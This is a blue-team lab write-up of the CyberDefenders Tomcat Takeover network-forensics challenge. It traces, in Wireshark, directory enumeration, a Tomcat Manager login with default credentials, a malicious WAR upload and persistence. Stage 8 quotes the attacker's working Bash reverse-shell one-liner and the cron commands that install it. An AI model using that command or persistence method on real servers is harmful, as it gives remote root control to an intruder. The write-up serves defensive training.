









# Tomcat Takeover (CyberDefenders Network Forensics / Wireshark Lab)

_A hands-on SOC investigation of web reconnaissance, Tomcat Manager access, credential abuse, malicious WAR deployment, reverse-shell activity, and persistence using Wireshark._

---

## Table of Contents

- [Project Summary](#project-summary)
- [Incident Overview](#incident-overview)
- [Skills Demonstrated](#skills-demonstrated)
- [Investigation Process](#investigation-process)
  - [Stage 1: Identify the Attacker IP](#stage-1-identify-the-attacker-ip)
  - [Stage 2: Identify the Attacker's Geographic Origin](#stage-2-identify-the-attackers-geographic-origin)
  - [Stage 3: Identify the Tomcat Web Port](#stage-3-identify-the-tomcat-web-port)
  - [Stage 4: Identify the Enumeration Tool](#stage-4-identify-the-enumeration-tool)
  - [Stage 5: Identify the Administrative Interface](#stage-5-identify-the-administrative-interface)
  - [Stage 6: Identify the Successful Credentials](#stage-6-identify-the-successful-credentials)
  - [Stage 7: Identify the Malicious WAR File](#stage-7-identify-the-malicious-war-file)
  - [Stage 8: Identify the Reverse-Shell Callback](#stage-8-identify-the-reverse-shell-callback)
- [Attack Timeline](#attack-timeline)
- [Key Findings](#key-findings)
- [Indicators and Investigation Artifacts](#indicators-and-investigation-artifacts)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Remediation Recommendations](#remediation-recommendations)
- [Lessons Learned](#lessons-learned)
- [What I Would Improve Next Time](#what-i-would-improve-next-time)
- [References](#references)

---

## Project Summary

> **What is this project?**
>
> I completed the CyberDefenders **Tomcat Takeover** lab, a network-forensics challenge based on an Apache Tomcat web server compromise. The activity included scanning, directory enumeration, access to the Tomcat Manager panel, use of valid credentials, a malicious WAR-file upload, a reverse shell, and persistence.

Using Wireshark, I worked through the PCAP to identify the suspicious IP address, review HTTP requests and responses, find the Tomcat admin path, locate the credentials used by the attacker, identify the uploaded WAR file, and determine where the reverse shell connected back to.

This lab helped me get more comfortable investigating a web-server attack using only network traffic instead of relying on endpoint logs or a SIEM.

---

## Incident Overview

The PCAP showed one external IP sending many requests to a Tomcat web server. A lot of the requests were for different directories and admin-related paths, which looked like scanning and enumeration rather than normal browsing.

The attacker eventually reached the Tomcat Manager interface and authenticated successfully. After that, a WAR file was uploaded through the manager page. The later traffic showed commands being run on the server, followed by a Bash reverse-shell command and a cron job for persistence.

The high-level attack sequence was:

```text
Port and service reconnaissance
        ↓
Web directory enumeration
        ↓
Tomcat Manager discovery
        ↓
Successful authentication
        ↓
Malicious WAR upload
        ↓
Command execution
        ↓
Reverse shell
        ↓
Cron-based persistence
```

---

## Skills Demonstrated

- Building Wireshark display filters
- Reviewing IPv4 and TCP conversations
- Analyzing HTTP requests and responses
- Recognizing scanning and directory-enumeration behavior
- Inspecting HTTP User-Agent strings
- Understanding HTTP Basic Authentication
- Finding credentials in parsed HTTP fields
- Using Follow HTTP/TCP Stream
- Identifying Java WAR deployment activity
- Recognizing reverse-shell commands
- Building an attack timeline from packet evidence
- Separating attacker-to-server traffic from server-to-attacker callback traffic
- Writing up network-forensics findings in a SOC-style format

---

## Investigation Process

### Stage 1: Identify the Attacker IP

- **Objective:** Find the source IP responsible for the suspicious requests against the web server.
- **Actions:**
  - Filtered the PCAP for HTTP traffic.
  - Opened **Statistics → Conversations → IPv4**.
  - Compared the IP addresses communicating with the web server.
  - Looked at the request patterns and the HTTP response codes.
- **Useful Wireshark filter:**

```wireshark
http
```

A more focused filter after identifying the suspicious host:

```wireshark
ip.addr == 14.0.0.120 && http
```

- **Evidence:**

```text
Suspected attacker: 14.0.0.120
Web server:          10.0.0.112
Observed behavior:   Repeated requests to numerous web paths
Responses:           Multiple 404 Not Found and 401 Unauthorized responses
```

I did not treat the high packet count by itself as proof of an attack. What made the source suspicious was the repeated probing of many different directories and admin-related paths.

- **Result:**

```text
14.0.0.120
```

> 

> 

---

### Stage 2: Identify the Attacker's Geographic Origin

- **Objective:** Find the country associated with the attacker's public IP address.
- **Actions:**
  - Performed a WHOIS lookup for `14.0.0.120`.
  - Reviewed the network registration details.
- **Evidence:**

```text
Netname: CHINANET-GD
Description: CHINANET Guangdong province network
Organization: China Telecom
Country code: CN
```

- **Result:**

```text
China
```

> 

> **Analyst note:** WHOIS and GeoIP data show where an IP range is registered or geolocated. They do not prove the actual physical location of the person behind the attack.

---

### Stage 3: Identify the Tomcat Web Port

- **Objective:** Find which open port was being used for the Tomcat web interface.
- **Actions:**
  - Opened one of the HTTP requests from the attacker.
  - Expanded the TCP and HTTP sections in Wireshark.
  - Checked the destination port and the `Host` header.
- **Evidence:**

```text
TCP destination port: 8080
Service label:         http-alt
Host header:           10.0.0.112:8080
Full request URI:      http://10.0.0.112:8080/
```

- **Result:**

```text
8080
```

> 

---

### Stage 4: Identify the Enumeration Tool

- **Objective:** Find which tool the attacker used for directory and file enumeration.
- **Actions:**
  - Opened the HTTP request headers.
  - Checked the `User-Agent` field.
- **Evidence:**

```text
User-Agent: gobuster/3.6
```

The traffic also matched Gobuster-style behavior because many different paths were requested in a short time.

- **Result:**

```text
Gobuster
```

> 

---

### Stage 5: Identify the Administrative Interface

- **Objective:** Find the admin-related directory discovered by the attacker.
- **Actions:**
  - Reviewed the URIs requested by the attacker.
  - Noticed several requests related to Tomcat Manager.
- **Evidence:**

```text
/manager
/manager/
/manager/html
/manager/deploy
/manager/jmxproxy
/manager/list
```

The main administrative directory found during enumeration was:

- **Result:**

```text
/manager
```

> 

---

### Stage 6: Identify the Successful Credentials

- **Objective:** Find the credentials that successfully gave access to the Tomcat Manager interface.
- **Actions:**
  - Filtered the attacker's HTTP traffic.
  - Looked for requests containing authentication data.
  - Expanded the HTTP `Authorization` field in the packet-details pane.
- **Useful Wireshark filter:**

```wireshark
ip.addr == 14.0.0.120 && http.authorization
```

- **Evidence:**

```text
Authorization: Basic YWRtaW46dG9tY2F0
Wireshark-decoded credentials: admin:tomcat
```

HTTP Basic Authentication sends the `username:password` value in Base64. Wireshark decoded it automatically in the packet-details pane.

- **Result:**

```text
admin:tomcat
```

> 

---

### Stage 7: Identify the Malicious WAR File

- **Objective:** Find the filename uploaded through the Tomcat Manager interface.
- **Actions:**
  - Filtered for HTTP POST requests involving the attacker.
  - Found the upload request to Tomcat Manager.
  - Used **Follow HTTP Stream** to inspect the multipart form data.
- **Useful Wireshark filter:**

```wireshark
ip.addr == 14.0.0.120 && http.request.method == "POST"
```

- **Evidence:**

```text
POST /manager/html/upload
Content-Type: multipart/form-data
Content-Disposition: form-data; name="deployWar"; filename="JXQOZY.war"
Content-Type: application/octet-stream
```

A `.war` file is a Java **Web Application Archive** that Tomcat can deploy as a web application. In this case, the uploaded file was connected to the attacker's attempt to get command execution on the server.

- **Result:**

```text
JXQOZY.war
```

> 

---

### Stage 8: Identify the Reverse-Shell Callback

- **Objective:** Find where the compromised server connected back after the WAR file was deployed.
- **Actions:**
  - Continued following the traffic after the upload.
  - Moved to the next relevant stream.
  - Found interactive shell commands.
  - Reviewed the Bash reverse-shell command and cron commands.
- **Evidence:**

```bash
whoami
root

cd /tmp
pwd
/tmp

echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
crontab -i cron
crontab -l
```

The callback destination is visible directly inside the reverse-shell command:

```text
/dev/tcp/14.0.0.120/443
```

- **Result:**

```text
14.0.0.120:443
```

The cron commands also showed that the attacker tried to keep the reverse shell running by setting it to execute repeatedly.

> 

---

## Attack Timeline

| Stage | Activity | Evidence |
|---|---|---|
| Reconnaissance | `14.0.0.120` probes services and the web application | Repeated attacker-to-server requests |
| Web enumeration | Numerous web paths are requested | HTTP requests with `User-Agent: gobuster/3.6` |
| Admin discovery | Tomcat Manager paths are identified | Requests to `/manager` and `/manager/html` |
| Authentication | Valid Tomcat Manager credentials are used | HTTP Basic Auth decodes to `admin:tomcat` |
| Payload deployment | A WAR file is submitted to Tomcat Manager | Multipart upload containing `JXQOZY.war` |
| Command execution | Interactive shell commands are observed | `whoami`, `cd /tmp`, `pwd` |
| Privilege context | Shell runs with elevated privileges | `whoami` returns `root` |
| Reverse shell | Server connects back to the attacker | `/dev/tcp/14.0.0.120/443` |
| Persistence | Reverse-shell command is added to cron | `crontab` commands and recurring cron entry |

---

## Key Findings

| Finding | Value |
|---|---|
| Attacker IP | `14.0.0.120` |
| Target web server | `10.0.0.112` |
| Attacker IP registration country | China |
| Tomcat HTTP port | `8080` |
| Enumeration tool | Gobuster 3.6 |
| Administrative directory | `/manager` |
| Successful credentials | `admin:tomcat` |
| Malicious uploaded file | `JXQOZY.war` |
| Reverse-shell callback | `14.0.0.120:443` |
| Shell privilege observed | `root` |
| Persistence mechanism | Cron |

---

## Indicators and Investigation Artifacts

```text
14.0.0.120
10.0.0.112
10.0.0.112:8080
/manager
/manager/html
gobuster/3.6
admin:tomcat
JXQOZY.war
14.0.0.120:443
```

Protocols and artifacts important to the investigation:

| Protocol / Artifact | Relevance |
|---|---|
| TCP | Used for the web traffic and the reverse-shell connection |
| HTTP | Showed the scanning, enumeration, authentication, and file upload |
| HTTP Basic Authentication | Contained the Tomcat Manager username and password |
| Multipart form data | Used to send the WAR file to the server |
| WAR | Java web-application package that can be deployed by Tomcat |
| Bash `/dev/tcp` | Used to create the reverse-shell connection |
| Cron | Used for the persistence attempt |

---

## MITRE ATT&CK Mapping

The following techniques match the activity visible in the PCAP:

| Technique | Relevance |
|---|---|
| **T1595 – Active Scanning** | The attacker scanned and probed the target before accessing the application. |
| **T1083 – File and Directory Discovery** | The attacker requested many paths while looking for useful directories and files. |
| **T1078 – Valid Accounts** | Valid credentials were used to access the Tomcat Manager interface. |
| **T1190 – Exploit Public-Facing Application** | The attacker abused the exposed Tomcat web service to gain access and deploy a payload. |
| **T1505.003 – Web Shell** | A malicious WAR file was deployed through Tomcat to get command execution. |
| **T1053.003 – Cron** | A cron job was created to repeatedly start the reverse shell. |
| **T1071.001 – Web Protocols** | HTTP was used during enumeration, authentication, and payload deployment. |

> **Analyst note:** I only mapped techniques that were supported by what I could actually see in the packet capture. I did not assume a specific exploit or offensive framework without evidence.

---

## Remediation Recommendations

- Restrict access to the Tomcat Manager interface so it is not exposed unnecessarily.
- Replace weak, default, or reused credentials with strong unique passwords.
- Check the server for unexpected files, processes, services, and scheduled tasks.
- Remove malicious cron entries and look for any other persistence.
- Monitor web servers for unusual outbound connections, especially after uploads or admin activity.

---

## Lessons Learned

- **Follow HTTP Stream** is very useful for seeing uploads and request bodies, but it is not always the fastest way to find every answer.
- Wireshark's parsed packet fields can be much faster for things like HTTP Basic Authentication credentials.
- `http.authorization` is useful for quickly finding requests that contain authentication data.
- Looking at traffic in time order after a suspicious upload can make the next stage of an attack easier to spot.
- Even without endpoint logs, a PCAP can still reveal command execution, reverse-shell activity, and persistence if the traffic is visible.

---

## What I Would Improve Next Time

- Use protocol-specific Wireshark fields earlier instead of depending too much on **Follow Stream**.
- Practice finding new TCP connections with SYN flags so I can identify reverse-shell callbacks faster.
- Keep documenting the evidence and reasoning behind each finding instead of only recording the final answer.

---

## References

- [CyberDefenders Tomcat Takeover Lab](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)
- [Apache Tomcat Documentation](https://tomcat.apache.org/)
- [MITRE ATT&CK](https://attack.mitre.org/)
